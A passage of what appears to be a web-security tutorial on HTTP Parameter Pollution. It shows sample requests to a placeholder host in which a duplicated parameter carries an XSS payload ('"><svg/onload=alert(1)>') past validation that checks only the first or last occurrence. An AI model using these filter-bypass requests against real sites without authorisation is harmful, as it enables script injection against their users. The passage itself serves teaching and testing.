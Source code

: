 ```
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the first occurrence (q=Hello) is checked and the last occurrence (q=”><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.


## 3 - Last occurrence :
  Last occurrence means a web application performs input validation on the last parameter which makes it vulnerable to first parameter which should be of same name.
  
Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q="><svg/onload=alert(1)>&q=Hello HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the last occurrence (q=Hello) is checked and the first occurrence (q="><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.

## 4 - Becomes an array :
  Becomes an array means whatever the input is sent from the client side the server parsed it into an array and displays it. Which means the parameter which you are polluting has an array as datatype, which is also the most vulnerable.
  
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100
```
Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```